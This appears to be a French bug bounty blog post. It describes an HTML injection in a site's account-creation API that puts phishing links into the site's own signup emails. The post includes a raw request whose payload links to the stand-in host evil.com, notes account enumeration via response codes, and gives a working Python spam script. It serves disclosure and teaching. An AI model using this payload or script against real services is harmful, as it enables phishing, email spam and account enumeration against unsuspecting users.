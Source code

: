 ```yaml
---
published: true
layout: post
title: "Bug Bounty : De hacker à phisher"
description: "Cet article décrit comment une injection de caractères permet de créer un scénario de phishing dans le cadre d'un BugBounty"
lang: fr_FR
category: Bug Bounty, injection, phishing
---
```


![Bug Bounty : De hacker à phisher](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/illustration.jpg)
# Bug Bounty : De hacker à phisher
Dans ce court article, j'expliquerai comment j'ai pu exploiter une vulnérabilité de l'API d'un grand site français pour en faire un scénario de phishing. Je précise bien évidemment que tout a été fait dans la légalité car le site en question est inscrit sur une plateforme de Bug Bounty et j'ai été invité à ce Bug Bounty privé.

## Injection de caractères spéciaux via l'interface
Je me suis interessé à l'interface de création de compte du site en question, je me suis rendu compte que lors de l'inscription, un mail est envoyé avec le prénom de la personne qui s'est inscrite. J'ai alors essayé d'injecter des caractères spéciaux. Il ne m'a pas été possible d'injecter des caractères via l'interface :
[![Injection de caractères](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/interface.jpg)](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/interface.jpg)

## Injection de caractères spéciaux via l'API
Je me suis alors penché sur l'API et j'ai regardé les requêtes qui sont envoyées. J'ai tout d'abord envoyé des informations valides. L'API envoie alors un mail sur l'adresse indiquée avec un lien de validation et retourne le code `200`.
Si l'adresse existe déjà, aucun mail n'est envoyé et le code de retour est le `409`.

Grâce à cette information, il est déjà possible de faire un script d'énumération de comptes. J'ai également signalé cette vulnérabilité aux créateurs du site.

J'ai ensuite injecté dans le champ `firstName`les caractères souhaités via l'API :
```
POST /api/accounts?callback=https%3A//www.xxx.xxxx/espaceclient/managecustomer/accountcreationcallbackurl%3FloginHint%3Dbugbounty@yopmail.com&send_notif_email=true&is_migrated=false HTTP/1.1
Host: connect.xxxx.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json
Accept-Language: fr
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-App: CCL
Content-Length: 224
Origin: https://www.xxx.xxxx
DNT: 1
Connection: close

{
  "email":"bugbounty1234@yopmail.com",
  "password":"Toto123!",
  "firstName":"<a href=\"http://evil.com\">Merci de payer le billet",
  "lastName":"Bounty",
  "civility":"M",
  "birthdate":"1998-1-1",
  "mobileNumber":"+33677889988"
}
```

Le code d'erreur `200` est renvoyé, ce qui signifie que la requête a correctement été interprétée :
```
HTTP/1.1 200 OK
date: Sun, 01 Nov 2020 21:26:40 GMT
set-cookie: SFCP61API=SFCSERP61API; path=/
strict-transport-security: max-age=15768000
access-control-allow-origin: *
access-control-max-age: 1000
access-control-allow-headers: X-App, X-Requested-With, Content-Type, Origin, Authorization, Accept, Client-Security-Token, Accept-Encoding, X-OpenAM-Username, X-OpenAM-Password
access-control-allow-methods: POST, GET, PUT, DELETE
content-length: 0
x-cdn-srv: ovh-sbg-cache-1
connection: close
```

Le mail reçu est alors le suivant :
[![Mail d'inscription](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/mail.jpg)](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/mail.jpg)

Si l'utilisateur clique sur `Merci de payer le billet`, il sera redirigé vers le site http://evil.com

## Créer ou migrer pour exploiter ?
J'ai ensuite regardé les paramètres de la requête et notamment le paramètre `is_migrated=false`. J'ai rejoué la même requête mais en mettant la valeur à `is_migrated=true`. Le mail reçu a alors cette forme :
[![Mail de migration](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/mail2.jpg)](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/mail2.jpg)

Le système de mail considère que le compte existe déjà et choisi un autre template de mail. J'ai essayé de jouer avec ce paramètre pour voir la réaction du système sur un compte qui existe déjà, l'API vérifie correctement et il n'est pas possible d'envoyer le mail sur un compte existant.

## Script d'exploitation
Afin de réaliser une jolie preuve de concept en vidéo, j'ai créé un script Python qui m'a permis d'exploiter cette vulnérabilité. Le script est capable de :
- Injecter un lien malveillant dans le mail
- Choisir le nombre de mails à envoyer (pour spammer)
- Lister les comptes qui existent déjà

Pour les besoins du POC, j'ai séparé la fonctionnalité de listing des comptes dans un autre script que je ne présenterai pas ici, mais visiblement cela n'a pas intéressé l'entreprise en question.

```python
# -*- coding: utf-8 -*-
import requests, argparse

print("""
 ██████╗██╗     ███████╗██████╗ ███████╗██████╗
██╔════╝██║     ██╔════╝██╔══██╗██╔════╝██╔══██╗
██║     ██║     █████╗  ██████╔╝█████╗  ██████╔╝
██║     ██║     ██╔══╝  ██╔══██╗██╔══╝  ██╔══██╗
╚██████╗███████╗███████╗██████╔╝███████╗██║  ██║
 ╚═════╝╚══════╝╚══════╝╚═════╝ ╚══════╝╚═╝  ╚═╝
30/04/2020
API account spammer
Créé par Clément BOUDER pour le Bug Bounty YesWeHack
Ceci est un PoC merci de ne pas l'utiliser de manière malveillante
Mon site : https://clement-bouder.fr
""")

parser = argparse.ArgumentParser()
parser.add_argument("mail", help="L'adresse mail du mail a spammer",type=str)
parser.add_argument("nombre", help="L'adresse mail du mail a spammer", type=int)
parser.add_argument("texte", help="Le texte à envoyer",type=str)
args = parser.parse_args()
nombre_de_mail = args.nombre
mail_a_spammer = args.mail
texte = args.texte
print("Début du spam")
avancement = 0
for i in range(nombre_de_mail):

    url_api = "https://connect.xxxx.com:443/api/accounts?callback=https%3A//www.xxx.xxxx/espaceclient/managecustomer/accountcreationcallbackurl%3FloginHint%3D" + mail_a_spammer + "&send_notif_email=false&is_migrated=true"

    entete_requete = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0", "Accept": "application/json", "Accept-Language": "fr", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/json", "X-App": "CCL", "Origin": "https://www.xxx.xxxx", "DNT": "1", "Connection": "close", "Referer": "https://www.xxx.xxxx/"}

    donnees_requete={"birthdate": "2000-1-1", "civility": "M", "email": mail_a_spammer, "firstName": texte, "lastName": "xxxx pour un Bug Bounty", "mobileNumber": "+33689564313", "password": "unMotDePass!1"}

    result = requests.post(url_api, headers=entete_requete, json=donnees_requete)


    if result.status_code == 409:
        print("Compte déjà existant, impossible de spammer")
        exit()
    elif result.status_code != 200:
        print("Erreur inconnue : " + str(result.status_code) + str(result.text))
        exit()
    avancement = ((i*100)/nombre_de_mail)
    print("Avancement : " + str(avancement) + "%")
print("Avancement : 100%")
print(str(nombre_de_mail) + " mails envoyés")
```

Le rendu est alors le suivant :

[![Script d'exploitation](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/script.jpg)](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/script.jpg)

## Conclusion
Je n'ai pas pu aller plus loin dans l'exploitation de la vulnérabilité. J'ai donc écrit mon rapport et fait ma vidéo de preuve de concept avec un score CVSS de 5.4. Elle a été acceptée mais non payée car déjà déclarée :

[![Réponse sur YesWeHack](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/ywh_reponse.jpg)](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/ywh_reponse.jpg)

Pour conclure, pensez bien à ne **jamais** faire **confiance à ce qu'entre l'utilisateur** et **toujours nettoyer les entrées utilisateur**.
